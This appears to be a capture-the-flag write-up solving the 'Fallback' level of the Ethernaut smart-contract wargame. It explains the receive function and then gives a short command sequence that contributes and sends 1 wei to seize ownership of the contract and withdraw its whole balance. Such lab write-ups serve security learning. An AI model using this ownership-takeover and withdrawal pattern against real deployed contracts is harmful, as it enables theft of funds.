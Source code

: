 [1 - Fallback](https://ethernaut.openzeppelin.com/level/1)

Solution: 
* **receive** function is called when transaction's calldata is empty, and any ETH value is supplied.
* can take control of the contract by sending a transaction with empty calldata and 1 WEI
```
await contract.contribute({value: 1}); // to later on pass require in receive function
await contract.getContribution(); // to check contribution worked
await contract.send({value: 1}); // to hit receive function and change owner to ourselves
await getBalance(contract.address); // to check contract has balance
await contract.withdraw(); // to withdraw everything
await getBalance(contract.address); // to check solution is correct
```